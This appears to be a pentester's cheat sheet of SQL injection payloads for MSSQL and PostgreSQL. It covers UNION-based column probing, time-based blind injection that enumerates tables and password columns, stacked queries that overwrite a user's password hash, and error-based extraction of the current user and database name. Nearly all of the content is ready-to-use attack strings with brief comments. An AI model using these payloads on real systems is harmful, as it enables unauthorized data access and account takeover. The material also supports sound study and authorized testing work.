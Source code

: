 - mssqli UNION-based Payloads
```bash
# check number of the column
' UNION ALL select 1, 2 --
' UNION select 1, 2 --;
```

- mssqli Blind SQL Injections
```bash
# check if its working
'; IF (1=1) WAITFOR DELAY '0:0:10';--
'; IF (1=2) WAITFOR DELAY '0:0:10';--

'; IF ((select count(name) from sys.tables where name = 'user')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';--

# we blindly verify that there is a column named USERNAME in the table USERS.
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'user%')=1) WAITFOR DELAY '0:0:10';--

# figure out the name of the column holding the password
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'password')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'pass%')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'passw%')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'password_hash')=1) WAITFOR DELAY '0:0:10';--

# find username
USERNAME like 'a%', USERNAME like 'b%', USERNAME like 'c%'
'; IF ((select count(username) from users where username = 'butch')=1) WAITFOR DELAY '0:0:10';--

# update password
'; update users set password_hash = 'tacos123' where username = 'butch';--
'; update users set password_hash = '6183c9c42758fa0e16509b384e2c92c8a21263afa49e057609e3a7fb0e8e5ebb' where username = 'butch';--

# check if password has been updated
'; IF ((select count(username) from users where username = 'butch' and password_hash = 'tacos123')=1) WAITFOR DELAY '0:0:10';--
'; IF ((select count(username) from users where username = 'butch' and password_hash = '6183c9c42758fa0e16509b384e2c92c8a21263afa49e057609e3a7fb0e8e5ebb')=1) WAITFOR DELAY '0:0:10';--
```

- postgresql SQLi injection
```bash
' order by 7 -- //
' union select 1, 1, 1, 1, 1, 1 -- //
' union select 'd', 1, 1, 'd', 'd', null -- //

# Current user
' union select 'd', cast((SELECT concat('DATABASE: ',current_user)) as int), 1, 'd', 'd', null -- //

# Use cast to cause error to get the database
' union select 'd', cast((SELECT concat('DATABASE: ',current_database())) as int), 1, 'd', 'd', null -- //
## ERROR
<b>Warning</b>:  pg_query(): Query failed: ERROR:  invalid input syntax for type integer: &quot;DATABASE: glovedb&quot; in <b>/var/www/html/class.php</b> on line <b>423</b><br />

# Use case to find out tables
cast((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET data_offset) as int)
```